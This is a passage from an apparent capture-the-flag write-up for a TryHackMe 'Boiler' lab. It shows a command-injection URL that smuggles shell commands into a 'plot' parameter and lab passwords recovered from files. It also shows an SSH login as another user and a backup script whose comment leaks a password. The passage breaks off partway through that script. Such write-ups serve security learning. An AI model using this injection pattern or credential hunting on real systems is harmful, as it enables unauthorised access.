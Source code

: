 `http://<ipaddr>/index.php?plot=;<command-here>`

* [http://10.10.57.168/joomla/_test/index.php?plot=;ls%20-la](http://10.10.57.168/joomla/_test/index.php?plot=;ls%20-la)

`superduperp@$$`

`log.txt`

## Task 2 Questions #2

You can complete this with manual enumeration, but do it as you wish

```
kali@kali:~/CTFs/tryhackme/Boiler CTF$ ssh basterd@10.10.57.168 -p 55007
basterd@10.10.57.168's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

8 packages can be updated.
8 updates are security updates.


Last login: Thu Aug 22 12:29:45 2019 from 192.168.1.199
```

1. Where was the other users pass stored(no extension, just the name)?

```
$ ls -la
total 16
drwxr-x--- 3 basterd basterd 4096 Aug 22  2019 .
drwxr-xr-x 4 root    root    4096 Aug 22  2019 ..
-rwxr-xr-x 1 stoner  basterd  699 Aug 21  2019 backup.sh
-rw------- 1 basterd basterd    0 Aug 22  2019 .bash_history
drwx------ 2 basterd basterd 4096 Aug 22  2019 .cache
$ /bin/bash
basterd@Vulnerable:~$ cat backup.sh
```

```sh
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log
 
DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows

ssh $USER@$REMOTE mkdir $TARGET/$DATE


if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
             echo "Begining copy of" $i  >> $LOG
             scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
             echo $i "completed" >> $LOG

                if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
                    rm $SOURCE/$i
```
